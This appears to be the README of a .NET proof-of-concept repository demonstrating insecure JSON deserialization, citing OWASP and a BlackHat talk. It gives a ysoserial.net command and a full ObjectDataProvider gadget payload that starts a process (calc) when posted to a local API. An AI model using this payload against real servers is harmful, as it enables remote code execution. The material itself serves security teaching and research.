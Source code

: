 # insecure-deserialization-net-poc
Insecure deserialization is a severe issue, which allows an attacker to exploit a server just by sending a malicious JSON.
This is a new issue in the [OWASP Top 10 2017 release](https://github.com/OWASP/Top10) - A8.
This POC is built based on a [white paper](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf) from BlackHat USA 2017 talk.
You can find a recording of the talk [here](https://www.youtube.com/watch?v=NqHsaVhlxAQ) - this recording is from AppSec USA 2017.

## Running
* Use VS to open the solution and launch the server.
* Use curl/postman to send malicious request to the API.

## Example payload
This is an example payload, as generated by [ysoserial.net](https://github.com/pwntester/ysoserial.net).
To generate it, I used the following command: `ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc"`:
```
{
    "body": {
        "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
        "MethodName": "Start",
        "MethodParameters": {
            "$type": "System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "$values": [
                "cmd",
                "/c calc"
            ]
        },
        "ObjectInstance": {
            "$type": "System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
        }
    }
}
```
Post this payload to `http://localhost:8085/api/hello`. 
A new `calc` instance should be open.

